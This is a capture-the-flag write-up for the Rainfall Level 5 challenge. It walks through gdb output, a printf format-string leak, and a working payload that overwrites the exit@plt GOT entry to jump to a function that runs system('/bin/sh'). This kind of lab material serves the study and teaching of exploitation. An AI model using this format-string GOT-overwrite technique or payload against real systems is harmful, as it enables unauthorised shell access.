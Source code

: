 # Rainfall - Level 5

## Executable Analyse

The program has 3 functions :

```assembly
(gdb) info function

0x080484a4  o
0x080484c2  n
0x08048504  main
```
The program calls `main`, which calls `n()` function.  
The goal is to execute `o` because the function call *system('/bin/sh')*  

Just like the two previous challenges, the `n` function is vulnerable to a printf attack.  

This time we have to rewrite exit() link function in the linkage table (@plt) in order to execute `o`. 

## Vulnerability

```bash
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p %p %p %p %p

AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```
Our buffer starts to write at the 4th element. Like in previous challenge we will need `%4$n`  
We can found the address of exit() link, disassembling exit function, and take `jmp` address : `0x8049838`  
```assembly
(gdb) disas exit

Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:		jmp    *0x8049838
   0x080483d6 <+6>:		push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
We want to store o() address (0x080484a4) at `*0x8049838`  

The n will write the n position in buffer, so hex(0x080484a4) convert to int = 134513828.  
Because of exit link address already passed we substact - 4 = 134513824  

```shell
(python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824x" + "%4$n"' ; cat) | ./level5
```